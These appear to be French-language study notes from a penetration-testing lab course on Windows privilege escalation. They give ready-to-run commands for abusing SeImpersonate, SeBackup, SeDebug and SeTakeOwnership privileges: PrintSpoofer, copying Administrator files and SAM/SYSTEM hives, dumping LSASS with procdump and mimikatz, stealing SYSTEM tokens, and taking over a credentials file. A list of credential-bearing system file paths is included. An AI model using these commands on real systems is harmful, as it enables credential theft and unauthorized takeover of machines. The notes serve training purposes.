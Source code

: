 
[Groupes et usagers par défaut](https://ss64.com/nt/syntax-security_groups.html)
[Groupes et comptes privilégiés](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-b--privileged-accounts-and-groups-in-active-directory)

## Privilèges utiles:
* SeImpersonatePrivilege
* SeBackupPrivilege
* SeAssignPrimaryToken
* SeLoadDriver
* SeDebug
## Comptes utiles:
* LOCAL SERVICE
* NETWORK SERVICE
* SERVICE

# named pipes
Méthode de communication local ou distante inter-processus. Crée un fichier dans lequel la communication se déroule.
* Forcer un processus avec privilèges suffisants à se connecter sur un named pipe avec **SeImpersonatePrivilege**

```powershell
pipelist.exe /accepteula
gci \\.\pipe\
#DACL du pipe
accesschk.exe /accepteula \pipe\lsass -v
```
## SeImpersonatePrivilege
### Printspoofer
https://github.com/itm4n/PrintSpoofer
Vérifier que le service roule avant: ```Get-Service Spooler```
vérifier que le pipe ```\\.\pipe\spoolss``` est ouvert: ```(get-childitem \\.\pipe\).FullName```

```
.\printspoofer.exe -i -c cmd
```

Potato (RottenPotato, SweetPotato, Juicy Potato)
https://jlajara.gitlab.io/Potatoes_Windows_Privesc

## SeBackupPrivilege
* Ne peut être utilisé si groupe ou usagé explicitement exclu d'un dossier/fichier
* [FILE_FLAG_BACKUP_SEMANTICS](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) doit être activé par programmation. 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

Set-SeBackupPrivilege
Get-SeBackupPrivilege

dir C:\Users\Administrator\
Copy-FileSeBackupPrivilege C:\Users\Administrator\flag.txt C:\Users\Public\flag.txt -Overwrite
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
`robocopy /b` peut le faire
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
robocopy "\\DC01\C$\users" "C:\users\backupdc012" /lev:5 /s /b
robocopy "\\DC01\C$\users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell" "C:\users\adminpowershell" /lev:5 /s /b
#Autre version
robocopy /B /S C:\Users\Administrator .\admin
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
On peut éditer les privilèges en copiant tout les policies sur notre machine, éditer puis renvoyer
Doit pouvoir mettre à jour les policies ou redémarrer le PC.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
robocopy "\\DC01\C$\Windows\SYSVOL" ".\SYSVOL" /e /b
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Voir sur internet, pas encore réussi
`diskshadow.exe` aussi
```powershell-session
PS C:\htb> diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 12:57:52 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```

Ce privilège permet aussi de sauvegarder SAM et SYSTEM registry hives
```cmd-session
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```
## SeDebugPrivilege
### Extraire la mémoire de LSASS
* Gestionnaire de tâche > Details > lsass.exe > create dump file
*  `procdump.exe -accepteula -ma lsass.exe lsass.dmp`
Utiliser mimikatz
1. `sekurlsa::minidump lsass.dmp`
2. `sekurlsa::logonpasswords`
### Voler un jeton
Chercher le PID d'un processus SYSTEM et utiliser ce [script](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1)
`[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")`

## SeTakeOwnershipPrivilege
Peut être possédé mais pas actif par défaut. Peut être activé avec ce [script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1)

```powershell-session
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```
fichiers utiles
```shell-session
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```

## DNSAdmin